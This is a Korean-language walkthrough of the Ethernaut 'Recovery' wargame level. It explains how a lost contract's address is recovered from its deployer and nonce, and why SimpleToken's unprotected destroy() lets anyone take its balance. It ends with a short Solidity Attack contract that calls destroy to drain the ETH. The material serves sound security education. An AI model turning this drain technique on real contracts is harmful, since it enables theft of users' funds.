





## 문제
### 지문
A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address.
This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
## 배경지식
---
솔리디티에서는 `new SimpleToken(...)`처럼 컨트랙트 내부에서 다른 컨트랙트를 배포할 수 있다. 이때 새 컨트랙트를 실제로 생성하는 주체는 트랜잭션을 보낸 EOA가 아니라 `new`를 실행한 컨트랙트다.
이 문제에서 `SimpleToken`의 deployer는 플레이어 주소가 아니라 `Recovery` 인스턴스 주소라고 보면 된다. 잃어버린 토큰 주소를 찾으려면 플레이어의 트랜잭션만 볼 게 아니라, `Recovery` 인스턴스가 내부에서 만든 컨트랙트를 찾아야 한다.
---
일반적인 `CREATE`로 배포되는 컨트랙트 주소는 배포자 주소와 배포자의 nonce로 결정된다.
```solidity
address = address(uint160(uint256(keccak256(rlp([sender_address, sender_nonce])))))
```
즉, 배포자 주소와 그 시점의 nonce를 알면 아직 주소를 직접 기록해두지 않았더라도 생성된 컨트랙트 주소를 다시 계산할 수 있다.
이 문제에서는 더 간단하게 Sepolia Etherscan의 internal transactions에서 `Recovery`가 생성한 `SimpleToken` 주소를 확인할 수도 있다. 하지만 원리는 같다. 컨트랙트 주소는 랜덤하게 만들어지는 값이 아니라, 생성 트랜잭션의 문맥에서 결정되는 값이다.
---
`selfdestruct(_to)`는 컨트랙트가 가진 ETH 잔액을 `_to`로 보내는 opcode다. 예전에는 코드와 스토리지까지 삭제하는 의미가 강했지만, Cancun 이후 EVM에서는 기존 컨트랙트에 대한 `selfdestruct`가 코드와 스토리지를 삭제하지 않고 잔액 전송 중심으로 동작한다. 그래도 Ethernaut의 완료 조건은 잃어버린 컨트랙트의 `0.001 ether`를 회수하거나 제거하는 것이므로, 이 문제 풀이에는 여전히 사용할 수 있다.
## 문제 코드 분석
---
먼저 토큰 생성 흐름을 보자.
```solidity
contract Recovery {
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}
```
`generateToken`은 `SimpleToken`을 생성하지만 생성된 주소를 상태변수나 이벤트로 남기지 않는다. 그래서 겉으로 보면 토큰 컨트랙트 주소를 잃어버린 것처럼 보인다.
하지만 `new SimpleToken(...)`이 실행된 이상 컨트랙트 생성 내역은 체인에 남는다. `Recovery` 인스턴스의 internal transaction을 보거나, `Recovery` 주소와 nonce로 CREATE 주소를 계산하면 `SimpleToken` 주소를 복구할 수 있다.
---
ETH는 여기로 들어간다.
```solidity
receive() external payable {
    balances[msg.sender] = msg.value * 10;
}
```
`SimpleToken`은 ETH를 받으면 토큰 잔액을 기록한다. 지문의 `0.001 ether`는 이 `receive`를 통해 잃어버린 `SimpleToken` 컨트랙트에 들어간 금액이다.
ETH는 `Recovery`가 아니라 `SimpleToken`에 있다. 따라서 `Recovery` 인스턴스를 공격하는 게 아니라, 잃어버린 `SimpleToken` 주소를 찾아 그 컨트랙트의 ETH를 빼내야 한다.
---
마지막으로 `destroy`를 보자.
```solidity
function destroy(address payable _to) public {
    selfdestruct(_to);
}
```
`destroy`에는 `onlyOwner` 같은 권한 체크가 없다. 누구든지 호출할 수 있고, 인자로 받은 `_to`에게 컨트랙트 잔액을 보낸다.
풀이 경로는 단순하다. 먼저 잃어버린 `SimpleToken` 주소를 찾고, 그 주소에 대해 `destroy(player)`를 호출하면 된다.
## 풀이
먼저 잃어버린 `SimpleToken` 주소를 찾아야 한다. `Recovery` 인스턴스의 internal transaction을 보면 `new SimpleToken(...)`으로 생성된 주소를 확인할 수 있다. 직접 계산하고 싶다면 `Recovery` 주소와 nonce로 CREATE 주소를 구해도 된다.


ETH는 `Recovery`가 아니라 생성된 `SimpleToken`에 있다. 따라서 찾은 `SimpleToken` 주소에 대해 `destroy(player)`를 호출하면 된다.

`destroy`에는 권한 체크가 없으므로 호출자는 누구든 될 수 있고, 남아 있던 ETH는 인자로 넣은 주소로 전송된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function attack() public {
        (bool ok, ) = target.call(abi.encodeWithSignature("destroy(address)", payable(msg.sender)));
        require(ok);
    }
}
```

호출 후 토큰 컨트랙트에 있던 ETH가 빠져나간 것을 확인할 수 있다.

